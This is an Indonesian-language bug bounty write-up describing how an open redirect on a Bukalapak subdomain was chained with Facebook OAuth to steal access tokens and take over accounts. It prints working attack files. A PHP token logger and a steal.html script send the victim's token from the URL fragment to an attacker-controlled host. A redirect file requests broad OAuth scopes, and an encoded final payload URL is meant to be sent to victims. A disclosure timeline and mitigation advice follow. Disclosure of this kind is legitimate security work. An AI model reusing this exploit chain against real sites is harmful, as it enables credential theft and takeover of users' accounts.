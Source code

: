 ```yaml
---
title: "Open redirect -> Account Takeover pada bukalapak.com"
date: 2020-07-14 01:38:00 +0000
modified: 2020-07-14
description: "Escalating Open Redirect into Account Takeover pada Bukalapak.com"
comments: true
tags:
- bukalapak
mathjax: false
category:
- Bugbounty
private: false

---
```


### Open Redirect  
---

Open Redirect adalah kerentanan dimana aplikasi menerima input dari pengguna yang akan digunakan untuk perpindahan halaman atau redirect pada aplikasi dan biasanya input tersebut tidak mempunyai filter atau dapat dibypass, input dari user yang akan di gunakan sebagai redirect tersebut yang menyebabkan penyalahgunaan fitur tersebut.


### Account Takeover 
---

Account Takeover adalah mengambil alih akses akun orang lain sama seperti artinya secara harviah, untuk melakukan account takeover kita dapat menggunakan berbagai macam cara, salah satunya adalah yang akan dijelaskan pada report ini yaitu menggabungkan kerentanan *Open Redirect* dengan *Facebook Oauth* untuk mendapatkan *token* dari akun orang lain, sehingga dapat mengambil alih akses terhadap akun yang dimiliki orang lain.  


###  Kesimpulan Masalah   
---

Open redirect yang ditemukan ada pada domain glimpse.bukalapak.com dengan parameter link, contoh open redirect nya adalah : [https://glimpse.bukalapak.com/redirect?link=https://evil.com](https://glimpse.bukalapak.com/redirect?link=https://evil.com "https://glimpse.bukalapak.com/redirect?link=https://evil.com") tapi karena bukalapak tidak menerima *Open Redirect* yang meliki impact keamanan yang kecil, maka saya harus mencari cara untuk memanfaatkan celah yang ada untuk mendapatkan celah yang mempunyai impact lebih besar dari pada sekedar *Open Redirect*.  

![Bukalapak Details](/images/bukalapak/redir.PNG)

saya mencoba memanfaatkan kelemahan tersebut(open redirect) agar bisa meningkatkan tingkat resikonya dengan *oauth* (facebook/google) dan dapat melakukan *account takeover*. 

fitur login dengan facebook yang berada di url berikut:   

    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fctfs.me&response_type=token

Oauth facebook memiliki 3 parameter yang seharusnya ada pada requestnya yaitu **client_id** dimana **727108917352926** adalah ID milik aplikasi bukalapak di facebook , kemudian **redirect_uri** adalah url yang akan menerima callback dari facebook **Yang hanya bisa di arahkan kepada domain milik bukalapak yaitu \*.bukalapak.com** , karena kita sudah memiliki open redirect maka attack scenario ini dapat mudah dijalankan, jika kita menggunakan domain selain bukalapak sebagai **redirect_uri** nya maka kita akan mendapatkan error berikut :   

![Error FB Oauth](/images/bukalapak/error.PNG)

Skenario yang saya buat untuk melancarkan attack ini adalah sebagai berikut :   

![Skenario](/images/bukalapak/skenario.PNG)

saya menggunakan 3 file berikut untuk mendapatkan token dari user, tanpa adanya user interaction sama sekali hingga tokennya tersimpan di dalam log yang saya persiapkan.   

```
    //file save.php
    <?php
    $file = fopen("token_facebook_log.txt","a");
    fwrite($file,@$_GET['data']."\n");
    fclose($file);
    ?>
```    

```
    //file steal.html
    <h2> 😈😈😈</h2>
    <script>
     let token = window.location.hash.substring(1);
     //alert("YOUR TOKEN IS MINE: "+token);
     const Http = new XMLHttpRequest();
     const url='https://security.ctfs.me/save.php?data='+token;
     Http.open("GET", url);
     Http.send();
     Http.onreadystatechange=(e)=>{
     console.log(Http.responseText)
     }
    </script>
    <meta http-equiv="refresh" content="1; url=https://bukalapak.com" />
```

```
    //file trusted.php
    <?php
    header("Location:
    https://www.facebook.com/v3.0/dialog/oauth?client_id=727108917352926&redirect_uri
    =https%3A%2F%2Fglimpse.bukalapak.com%2Fredirect%3Flink%3Dhttps://security.ctfs.me
    /steal.html&response_type=token&scope=email%2C+groups_access_member_info%2C+p
    ublish_to_groups%2C+user_age_range%2C+user_birthday%2C+user_events%2C+user_fri
    ends%2C+user_gender%2C+user_hometown%2C+user_likes%2C+user_link%2C+user_loca
    tion%2C+user_photos%2C+user_posts%2C+user_tagged_places%2C+user_videos%2C+pu
    blish_actions%2C+manage_pages%2C+instagram_basic");
    ?>
```

Untuk validasi token yang kita dapatkan ke facebook bisa menggunakan [https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2](https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2 "https://developers.facebook.com/tools/debug/accesstoken/?access_token=TOKEN_HERE&version=v3.2"), dan ternyata ketika user tersebut menggunakan Mobile Apps Bukalapak token yang di grant mempunyai waktu expired **NEVER** yang berarti hanya perlu 1x mengambil token dari korban dan attacker dapat login menggunakan token tersebut kapanpun(**NEVER**).

![FB Debug](/images/bukalapak/debug.PNG)  

    // Final Payload ( untuk di-kirimkan kepada korban )
    https://glimpse.bukalapak.com/redirect?link=%68%74%74%70%73%3a%2f%2f%73%65%6
    3%75%72%69%74%79%2e%63%74%66%73%2e%6d%65%2f%74%72%75%73%74%65%64
    %2e%70%68%70

User tidak diperlukan melakukan apapun **jika sudah terauthentikasi bukalapaknya dengan facebook** (jika belum maka aplikasi bukalapak akan meminta izin ke facebook) dan kemudian token user tersebut akan dikirim kepada log attacker.


### Video POC
---

<iframe width="560" height="315" src="https://www.youtube.com/embed/CR3Uyw7ydhg" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


### Timeline
---

|Description|Date|
|----------|:-------------:|
| **Sent Report to security@bukalapak.com** | Jan 17, 2019, 12:49 AM |
| **Bukalapak Response(Verify)** | Jan 17, 2019, 11:43 AM |
| **Bukalapak Response(Known Issue)** | Jan 18, 2019, 2:34 PM |
| **Publish Writeup** | Jul 14, 2020 9:00 PM |


### Saran
---

Untuk mitigasi celah keamanan ini bisa dengan menerapkan whitelist terhadap redirect yang ada pada glimpse.bukalapak.com atau merubah konfigurasi aplikasi facebook-nya agar hanya menerima domain tertentu saja untuk menerima callback token dari oauth, jangan menggunakan wildcard **\*.bukalapak.com** karena bukalapak yang memiliki banyak domain dan asset dibelakang domain tersebut jadi akan sulit untuk memastikan semua asset tidak memiliki kerentanan seperti *open redirect*.
